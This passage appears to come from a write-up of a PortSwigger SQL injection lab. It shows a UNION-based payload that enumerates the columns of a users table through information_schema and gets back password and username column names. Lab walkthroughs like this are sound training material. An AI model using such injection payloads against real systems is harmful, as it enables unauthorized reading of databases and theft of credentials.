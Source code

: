 ![users table](/docs/assets/images/portswigger/sqli/examinedb/examinedb18.png)

With the table name I can now query the `information_schema.columns` view `WHERE` the `table_name='users_gbcwql`.  

`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gbcwql'--` 

This query results in 2 column names: 

`password_ixmxrm` 

`username_xcjdpi` 
